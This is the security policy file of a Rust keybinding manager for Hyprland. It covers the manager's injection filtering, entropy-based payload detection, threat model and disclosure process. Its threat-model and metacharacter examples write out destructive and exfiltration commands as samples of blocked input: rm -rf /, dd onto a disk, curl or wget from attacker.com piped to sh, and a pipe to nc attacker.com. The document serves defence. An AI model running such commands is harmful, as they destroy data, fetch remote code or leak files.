

# Security Policy

## Overview

Hyprland Keybinding Manager takes security seriously.
This document outlines the security architecture, threat model, supported versions, and responsible disclosure process.

**Security Philosophy**: [Defence in depth](https://en.wikipedia.org/wiki/Defense_in_depth_(computing)) with multiple independent validation layers.

## Table of Contents

- [Overview](#overview)
- [Supported Versions](#supported-versions)
- [Security Architecture](#security-architecture)
  - [Three-Layer Defence System](#three-layer-defence-system)
- [Threat Model](#threat-model)
  - [Threats Mitigated ✅](#threats-mitigated-)
  - [Threats NOT Fully Mitigated ⚠️](#threats-not-fully-mitigated-️)
- [Security Features](#security-features)
  - [1. Whitelist-Based Validation](#1-whitelist-based-validation)
  - [2. Shell Metacharacter Detection](#2-shell-metacharacter-detection)
  - [3. Shannon Entropy Detection](#3-shannon-entropy-detection)
  - [4. Atomic File Operations](#4-atomic-file-operations)
  - [5. Automatic Backup System](#5-automatic-backup-system)
- [Memory Safety](#memory-safety)
  - [100% Safe Rust](#100-safe-rust)
  - [Protections Provided](#protections-provided)
- [Reporting a Vulnerability](#reporting-a-vulnerability)
  - [Responsible Disclosure Process](#responsible-disclosure-process)
  - [Response Timeline](#response-timeline)
  - [Severity Classification](#severity-classification)
- [Security Audit History](#security-audit-history)
- [Security Best Practices for Users](#security-best-practices-for-users)
- [Future Security Enhancements](#future-security-enhancements)
- [Security Acknowledgements](#security-acknowledgements)
- [Contact](#contact)

---

## Supported Versions

| Version | Supported          | Status                |
|---------|-------------------|-----------------------|
| 1.0.x   | ✅ Yes            | Current stable        |
| 0.9.x   | ⚠️ Partial        | Security fixes only   |
| < 0.9   | ❌ No             | Please upgrade        |

---

## Security Architecture

### Three-Layer Defence System



<details>
<summary>ASCII Fallback Diagram</summary>

```
User Input (Key Combo, Dispatcher, Args)
    │
    ↓
┌─────────────────────────────────────────────┐
│  Layer 1: Injection Prevention              │
│  ✓ Dispatcher whitelist                     │
│  ✓ Shell metacharacter detection (;|&$`)    │
│  ✓ Argument length limit (max 1000 chars)   │
│  ✓ Key name validation                      │
└────────────────┬────────────────────────────┘
                 ↓
┌─────────────────────────────────────────────┐
│  Layer 2: Danger Detection                  │
│  ✓ Critical patterns (rm -rf /, dd, forks)  │
│  ✓ Dangerous command HashSet (sudo, chmod)  │
│  ✓ Shannon entropy (base64/hex detection)   │
│  ✓ Context-aware analysis                   │
└────────────────┬────────────────────────────┘
                 ↓
┌─────────────────────────────────────────────┐
│  Layer 3: Config Validation                 │
│  ✓ Unified validation report                │
│  ✓ Severity classification (Error/Warn)     │
│  ✓ Transaction integration                  │
└────────────────┬────────────────────────────┘
                 ↓
         ┌───────┴────────┐
         ↓                ↓
    ✅ Accept        ❌ Reject
```
</details>

---

## Threat Model

### Threats Mitigated ✅

#### 1. [Shell Command Injection](https://en.wikipedia.org/wiki/Code_injection#Shell_injection)
**Attack Vector**: Malicious input in keybinding arguments
```bash
# BLOCKED: Attempt to inject shell commands
bind = SUPER, K, exec, firefox; rm -rf /home/user
```
**Mitigation**: Layer 1 detects `;` metacharacter and rejects input.

#### 2. Encoded Payload Injection
**Attack Vector**: Base64 or hex-encoded malicious commands
```bash
# BLOCKED: Base64-encoded command
bind = SUPER, K, exec, echo 'cm0gLXJmIC8=' | base64 -d | sh
```
**Mitigation**: Layer 2 [Shannon entropy](https://en.wikipedia.org/wiki/Entropy_(information_theory)) detection identifies encoded strings.

#### 3. Dangerous System Commands
**Attack Vector**: Direct system destruction commands
```bash
# BLOCKED: Critical destructive command
bind = SUPER, K, exec, rm -rf /
bind = SUPER, K, exec, dd if=/dev/zero of=/dev/sda
```
**Mitigation**: Layer 2 regex patterns match critical command structures.

#### 4. Privilege Escalation
**Attack Vector**: Unauthorised privilege elevation
```bash
# FLAGGED: Privilege escalation attempt
bind = SUPER, K, exec, sudo bash
```
**Mitigation**: Layer 2 flags `sudo`, `doas`, `su`, `pkexec` as dangerous.

#### 5. Config File Corruption
**Attack Vector**: Power loss or crash during write
**Mitigation**: Atomic write operations (temp file + OS rename guarantee).

#### 6. Data Loss from Accidental Deletion
**Attack Vector**: User deletes keybinding by mistake
**Mitigation**: Automatic timestamped backups before every write operation.

### Threats NOT Fully Mitigated ⚠️

#### 1. Malicious Valid Commands
**Scenario**: User intentionally creates dangerous but syntactically valid binding.
```bash
bind = SUPER, K, exec, curl attacker.com/malware.sh | sh
```
**Status**: Application validates syntax, but cannot determine user intent.
**Mitigation Strategy**: Layer 2 flags `curl` as suspicious, warns user.
**Residual Risk**: User can ignore warning and proceed.

#### 2. [Time-of-Check to Time-of-Use (TOCTOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) Race Conditions
**Scenario**: Malicious process modifies config file between validation and execution.
```
Thread 1: Validate config (PASS) → Write config
Thread 2: Modify file between validate and write
```
**Status**: Window of vulnerability exists (microseconds).
**Mitigation Strategy**: Atomic operations minimise window.
**Residual Risk**: Advanced local attackers with root access could exploit.

#### 3. Execution Environment Attacks
**Scenario**: Keybindings execute in user's full environment (PATH, env vars).
```bash
# Legitimate binding, but PATH contains malicious directory
bind = SUPER, K, exec, firefox
# Executes /malicious/path/firefox instead of /usr/bin/firefox
```
**Status**: Application cannot sandbox execution environment.
**Mitigation Strategy**: Validate dispatcher names, but not execution context.
**Residual Risk**: User's compromised environment affects all executed commands.

#### 4. Network-Based Attacks
**Scenario**: Valid commands that download malicious payloads.
```bash
bind = SUPER, K, exec, wget http://attacker.com/payload
```
**Status**: `wget`, `curl` are valid tools, often used legitimately.
**Mitigation Strategy**: Layer 2 flags network tools as suspicious.
**Residual Risk**: User can dismiss warnings.

---

## Security Features

### 1. Whitelist-Based Validation

**Philosophy**: Deny by default, allow explicitly.

**Allowed Dispatchers** (as of October 2025):
- Verified against official Hyprland documentation
- Total: 41 whitelisted dispatchers
- Examples: `exec`, `workspace`, `killactive`, `togglefloating`

**Maintenance**: Whitelist updated when Hyprland adds new dispatchers.

### 2. Shell Metacharacter Detection

**Blocked Characters**:
```
; | & $ ` ( ) { } [ ] < > \ " ' \n \r
```

**Rationale**: These characters enable command chaining, piping, and substitution.

**Example**:
```bash
# BLOCKED: Semicolon enables command chaining
firefox; whoami

# BLOCKED: Pipe enables data exfiltration
ls /etc | nc attacker.com 1234

# BLOCKED: Backticks enable command substitution
firefox `whoami`
```

### 3. Shannon Entropy Detection

**Innovation**: Detects obfuscated payloads using information theory.

**Algorithm** (using [HashMap](https://doc.rust-lang.org/std/collections/struct.HashMap.html)):
```rust
fn shannon_entropy(data: &str) -> f64 {
    let mut frequencies = HashMap::new();
    for byte in data.bytes() {
        *frequencies.entry(byte).or_insert(0.0) += 1.0;
    }

    let len = data.len() as f64;
    frequencies.values()
        .map(|&count| {
            let p = count / len;
            -p * p.log2()
        })
        .sum()
}
```

**Thresholds** (empirically validated):
- **Base64**: 4.0 bits/character
- **Hex**: 3.0 bits/character
- **Minimum Length**: 8 characters (reduces false positives)

**Detection Order**: Hex before Base64 (hex alphabet ⊂ base64 alphabet).

**Deep Dive**: For a comprehensive technical analysis including mathematical foundations, empirical validation methodology, theory vs. practice gap analysis, and complete test suite results (30/30 passing), see [ENTROPY_DETECTION.md](docs/ENTROPY_DETECTION.md) (929 lines).

### 4. [Atomic](https://en.wikipedia.org/wiki/Atomicity_(database_systems)) File Operations

**Implementation**: `atomic-write-file` crate

**Sequence**:
1. Write to temporary file (`.hyprland.conf.tmp`)
2. Call `fsync()` to flush to disk
3. Atomic `rename()` operation (OS guarantee)

**Guarantee**: Either old file intact OR new file complete. Never partial write.

### 5. Automatic Backup System

**Format**: `{filename}.YYYY-MM-DD_HHMMSS`

**Example**:
```
~/.config/hypr/backups/
├── hyprland.conf.2025-01-15_143045
├── hyprland.conf.2025-01-14_091522
└── hyprland.conf.2025-01-13_184511
```

**Retention**: User-configurable (default: keep all backups).

---

## Memory Safety

### 100% [Safe Rust](https://doc.rust-lang.org/nomicon/meet-safe-and-unsafe.html)

- **Zero `unsafe` blocks** in entire codebase
- **Cargo.toml workspace lints**:
  ```toml
  [workspace.lints.rust]
  unsafe_code = "forbid"
  unwrap_used = "deny"
  ```

### Protections Provided

1. **No Buffer Overflows**: Bounds checking on all array/vector access
2. **No Use-After-Free**: Ownership system prevents dangling pointers
3. **No Data Races**: Borrow checker ensures thread safety
4. **No Null Pointer Dereference**: `Option<T>` forces explicit handling

---

## Reporting a Vulnerability

### Responsible Disclosure Process

**Please DO**:
- Email security reports to: **tidynest@proton.me**
- Use subject line: `[SECURITY] Hyprland Keybinding Manager - [Brief Description]`
- Include:
  - Vulnerability description
  - Steps to reproduce
  - Proof-of-concept (if applicable)
  - Suggested fix (if you have one)
- Allow 7 days for initial response

**Please DO NOT**:
- Open public GitHub issues for vulnerabilities
- Disclose vulnerability publicly before patch is available
- Exploit vulnerability for malicious purposes

### Response Timeline

| Timeframe | Action |
|-----------|--------|
| **0-7 days** | Initial response acknowledging report |
| **7-14 days** | Severity assessment and timeline estimate |
| **14-30 days** | Patch development and testing |
| **30-45 days** | Public disclosure with credit to reporter |

### Severity Classification

**Critical** (Immediate fix required):
- Remote code execution
- Privilege escalation to root
- Data exfiltration of sensitive information

**High** (Fix within 7 days):
- Local code execution bypassing validation layers
- Config file corruption causing data loss

**Medium** (Fix within 30 days):
- Denial of service via malformed input
- Information disclosure (config paths, usernames)

**Low** (Fix in next release):
- Minor memory leaks
- UI rendering issues with security implications

---

## Security Audit History

| Date | Auditor | Scope | Findings |
|------|---------|-------|----------|
| 2025-01-15 | Internal | Full codebase | 0 critical, 0 high |
| 2025-01-01 | Clippy | Rust best practices | 0 warnings |

---

## Security Best Practices for Users

### 1. Verify Config File Ownership

```bash
# Check config file owner and permissions
ls -l ~/.config/hypr/hyprland.conf

# Should be owned by you (not root!)
# Recommended permissions: 0644 or 0600
```

### 2. Review Backups Regularly

```bash
# List all backups
ls -lh ~/.config/hypr/backups/

# Verify backup contents before restoring
cat ~/.config/hypr/backups/hyprland.conf.2025-01-15_14-30-45
```

### 3. Audit Third-Party Configs

**Never blindly import configs from untrusted sources!**

```bash
# Always review imported configs
cat downloaded-config.conf | grep -E "exec|sudo|rm|chmod"
```

### 4. Keep Software Updated

```bash
# Update regularly for security patches
git pull origin main
cargo build --release
```

### 5. Monitor for Suspicious Activity

**Watch for**:
- Unexpected keybindings you didn't create
- Bindings with `exec` commands you don't recognise
- Bindings containing network tools (`wget`, `curl`, `nc`)

---

## Future Security Enhancements

### Planned (Layer 4: Execution Sandbox)

1. **Sandboxed Execution** (High Priority)
   - Bubblewrap integration for command isolation
   - Restrict filesystem/network access per binding
   - Configurable security profiles

2. **AppArmor/SELinux Profiles** (Medium Priority)
   - System-level mandatory access control
   - Prevent writes to sensitive directories (`~/.ssh/`, `/etc/`)

3. **Audit Logging** (Medium Priority)
   - JSON log of all config changes
   - Fields: timestamp, action, user, binding, success/failure
   - Local only, no telemetry

4. **Cryptographic Signing** (Low Priority)
   - Sign backups with ed25519
   - Verify backup integrity on restore
   - Detect tampering

5. **Permission Verification** (Low Priority)
   - Check config ownership on startup
   - Warn if world-readable or owned by another user

---

## Security Acknowledgements

The author thanks:
- **[Rust](https://www.rust-lang.org/) Security Team** for language-level memory safety
- **[OWASP](https://owasp.org/)** for security testing methodology
- **[Hyprland](https://hypr.land/) Community** for security discussions

---

## Contact

**Security Email**: tidynest@proton.me

---

**Last Updated**: 2025-11-01
**Version**: 1.2.1
